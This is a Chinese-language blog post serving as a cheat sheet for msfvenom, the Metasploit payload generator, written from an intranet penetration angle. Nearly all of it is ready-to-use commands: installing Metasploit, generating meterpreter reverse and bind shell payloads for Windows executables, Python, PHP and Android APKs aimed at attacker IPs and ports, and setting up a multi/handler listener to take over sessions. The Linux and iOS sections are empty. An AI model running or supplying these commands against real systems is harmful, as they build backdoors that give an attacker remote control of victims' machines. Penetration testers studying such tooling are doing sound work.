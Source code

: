 ```yaml
---
layout: post
title:  "内网渗透之msfvenom"
categories: 内网渗透
tags: 工具 msfvenom
author: 0e0w
---
```


* content
{:toc}
这是一篇关于msfvenom文章。由于作者能力有限，文中定会出现一些错误，请谅解。本文创建时间为2020年6月4日，最近一次更新时间为2020年9月15日。本文会不定期更新。鉴于凡世之忙碌，下一次更新也许是明天，也许是下辈子。
> 关于什么是msfvenom？更多详细内容见 [msfvenom官网](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)和[如何使用](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom)。

## 01-msfvenom概述

### 基础介绍

msfvenom一般需要配合msf进行利用。使用msfvenom生成shellcode，使用msf进行监听，在靶机上运行shellcode。msfvenom几乎支持生成各种平台的shellcode。是后渗透测试过程中强大的武器之一。

### 安装方式

msfvenom是msfpayload和msfencode的组合，安装msf之后便可使用。

一键安装msf

>curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \chmod 755 msfinstall && \./msfinstall

更新msf
>
sudo msfupdate
>

## 02-msfvenom命令

- msfvenom -h #查看帮助
- msfvenom -l payloads #查看支持生成的payload
- msfvenom -l archs #查看支持的系统架构
- msfvenom -l platforms #查看支持的平台
- msfvenom -l encrypt #查看所有的加密方式
- msfvenom -l encoders #查看所有的编码器

例：

> msfvenom -a 系统架构 --platform 系统平台 -p 有效载荷 lhost=攻击机IP lport=攻击机端口 -e 编码方式  -i编码次数 -f 输出格式 -o 输出文件

> msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp lhost=111.231.228.112 lport=6059 -i 3 -e x86/shikata_ga_nai -f exe -o x86reverse_tcp.exe
>

## 03-msfvenom利用

**MSF监听器**

- use exploit/multi/handler
- set payload windows/meterpreter/reverse_tcp #设置成payload的模式
- set rhost 111.111.111.112
- set lport 6095
- exploit -j

**sessions操作**

- sessions -i 2
- shell

### Windows exe

靶机无公网ip

- msfvenom -p windows/meterpreter/reverse_tcp lhost=111.111.111.112 lport=6095 -f exe -o x86reverse_tcp.exe
- msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=111.111.111.112 lport=6095 -f exe -o x64reverse_tcp.exe

靶机有公网ip

- msfvenom -p windows/x64/meterpreter/bind_tcp lport=6095 -f exe -o bind_tcp.exe

### Linux elf

- 

### Python

靶机无公网ip

- msfvenom -p windows/meterpreter/reverse_tcp lhost=111.111.111.112 lport=6095 -f py -o x86reverse_tcp.py

靶机有公网ip

- msfvenom ­-p windows/x64/meterpreter/bind_tcp lport=6095 ­-f py -o exp.py

### PHP

- msfvenom -p php/meterpreter/reverse_tcp LHOST=111.111.111.112 LPORT=6095 -f raw -o session.php

### Android

- msfvenom -p android/meterpreter/reverse_tcp LHOST=111.111.111.112 LPORT=80 -o msf.apk 

### apple_ios

- 

## 04-参考链接

- https://blog.csdn.net/caiqiiqi/article/details/84102629


